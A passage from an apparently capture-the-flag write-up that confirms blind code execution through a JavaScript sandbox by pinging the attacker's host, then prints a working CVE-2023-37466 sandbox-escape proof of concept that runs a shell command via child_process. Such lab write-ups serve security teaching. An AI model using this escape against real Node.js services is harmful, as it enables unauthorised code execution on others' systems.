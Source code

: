 ![](/img/image-20240404072941416.png)

What's returned is a JavaScript `Promise` object. There are probably
ways to get the result from this, but I wasn't able to figure it out
with my limited JavaScript skills. Instead, I'll test a blind payload,
like `ping`. I'll start `tcpdump` on my host listening for ICMP packets,
and then run `ping -c 1 10.10.14.6` (the `-c 1` is important on Linux
systems as without it, `ping` will run forever):



    oxdf@hacky$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    02:46:49.800538 IP 10.10.11.239 > 10.10.14.6: ICMP echo request, id 2, seq 1, length 64
    02:46:49.800564 IP 10.10.14.6 > 10.10.11.239: ICMP echo reply, id 2, seq 1, length 64



An ICMP packet arrives at my host, which is evidence that the code
executed.

#### CVE-2023-37466

This vulnerability is in the `Promise` handler:



    async function fn() {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
    p = fn();
    p.constructor = {
        [Symbol.species]: class FakePromise {
            constructor(executor) {
                executor(
                    (x) => x,
                    (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('touch pwned'); }
                )
            }
        }
    };
    p.then();
